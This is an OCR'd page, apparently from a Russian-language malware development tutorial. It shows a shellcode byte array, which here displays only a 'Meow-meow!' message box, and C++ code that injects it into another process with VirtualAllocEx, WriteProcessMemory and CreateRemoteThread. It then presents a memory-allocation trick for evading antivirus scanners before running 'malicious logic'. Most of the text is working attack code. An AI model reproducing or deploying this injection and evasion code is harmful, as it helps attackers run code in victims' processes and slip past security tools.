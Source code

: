 ```cpp
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

Это классический вариант: мы определяем полезную нагрузку, выделяем память, копируем её в новый буфер, а затем выполняем.    

Основное ограничение сканера антивируса - это время, которое он может потратить на анализ каждого файла. Во время обычного системного сканирования антивирус должен проанализировать тысячи файлов. Он просто не может тратить слишком много времени или ресурсов на какой-то один. Один из "классических" трюков обхода антивируса, помимо шифрования полезной нагрузки: мы просто выделяем и заполняем `100MB` памяти:    

```cpp
char *mem = NULL;
mem = (char *) malloc(100000000);
if (mem != NULL) {
  memset(mem, 00, 100000000);
  free(mem);
  //... выполняем нашу вредоносную логику
}
```
